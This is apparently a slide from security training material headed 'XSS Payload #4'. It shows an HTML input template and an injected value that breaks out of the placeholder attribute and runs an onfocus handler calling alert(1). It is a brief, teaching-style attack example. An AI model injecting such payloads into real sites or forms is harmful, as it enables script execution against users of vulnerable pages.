

# XSS Payload #4
<input type="text" placeholder="{input}”>
<input type="text" placeholder="" autofocus onfocus="alert(1)”>